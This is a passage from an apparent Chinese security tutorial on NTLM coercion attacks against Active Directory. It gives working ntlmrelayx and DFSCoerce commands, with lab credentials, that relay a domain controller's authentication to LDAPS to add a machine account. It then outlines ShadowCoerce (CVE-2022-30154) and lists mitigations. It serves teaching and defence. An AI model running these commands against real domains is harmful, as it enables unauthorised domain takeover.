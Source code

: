 1. 开启监听器 ntlmrelay.py  
    通过添加用户来验证 PeitiPotam 强制验证成功与否。
    
    ```shell
    python3 ntlmrelayx.py -t ldaps://dc01.hack.lab --add-computer JustTest02$ --remove-mic
    ```
2. 使用 DFSCoerce 漏洞利用工具，触发辅域控进行强制验证
    
    ```shell
    python3 dfscoerce.py -u spiderman -p 123.com -d hack.lab 20.20.20.100 20.20.20.6
    ```

![x1Nqnx.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-9aaf771fc114889cad241c8196fedb48d2d0387e.png)

3. 效果分析  
    可以看到ntlmrelay中执行的添加用户的操作成功执行了，进而验证了 DFSCoerce 强制触发认证攻击成功。

#### 缓解措施

- 禁用已废弃的NTLM认证
- 启用身份验证扩展保护 (EPA)、SMB 签名
- 关闭 AD CS 服务器上的 HTTP 保护
- 打微软补丁 CVE-2022-26925

### 04 ShadowCoerce

> CVE-2022-30154  
> MS-FSRVP  
> \\pipe\\FssagentRpc  
> IsPathSupported() - IsPathShadowCopied()

#### 攻击原理

MS-FSRVP 是微软的文件服务器远程VSS协议。用于在远程计算机上创建文件共享卷影副本，该协议提供的接口可通过 `\pipe\FssagentRpc` SMB命名管道获得。  
攻击者通过使用一种依赖于远程UNC路径的特定方法来实现强制验证 —— IsPathSupported() 和 IsPathShadowCopied()

条件

- 目标服务器安装了文件服务器VSS代理服务
- 开启MS-FSRVP协议
- 拥有一个域用户凭据信息

#### 实验环境配置

实验环境：

> 环境简介  
> 域名 - hack.lab  
> 域控 - DC01 - 20.20.20.5  
> 辅域 - F2016 - 20.20.20.6  
> 域主机 - USER01 - 20.20.20.10  
> Kali - 20.20.20.100

除此之外，需要在目标服务器上启用 文件服务器VSS代理服务  
![x1NHj1.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-7dd9c612f3b0c02ac32f4a1351d9702c0f43e338.png)
